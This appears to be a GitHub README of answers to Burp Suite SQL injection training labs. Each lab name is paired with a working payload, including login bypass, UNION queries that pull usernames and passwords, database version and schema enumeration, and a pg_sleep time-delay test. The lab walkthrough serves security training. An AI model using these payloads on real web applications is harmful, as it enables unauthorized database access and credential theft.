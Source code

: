 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](sql_image/SQL-1.png)

--------------------------------

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](sql_image/SQL-2.png)

--------------------------------

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](sql_image/SQL-3.png)

--------------------------------

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](sql_image/SQL-4.png)

--------------------------------

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](sql_image/SQL-5a.png)
![](sql_image/SQL-5b.png)

--------------------------------

### SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--
![](sql_image/SQL-6.png)

--------------------------------

### SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--
![](sql_image/SQL-7.png)

--------------------------------

### SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#
![](sql_image/SQL-8.png)

--------------------------------

### SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![](sql_image/SQL-9a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--
![](sql_image/SQL-9b.png)
#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-
![](sql_image/SQL-9c.png)

--------------------------------

### SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![](sql_image/SQL-10a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--
![](sql_image/SQL-10b.png)
#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--
![](sql_image/SQL-10c.png)

--------------------------------

### Blind SQL injection with time delays
#### Solution: TrackingId=x'||pg_sleep(10)--
![](sql_image/SQL-13a.png)
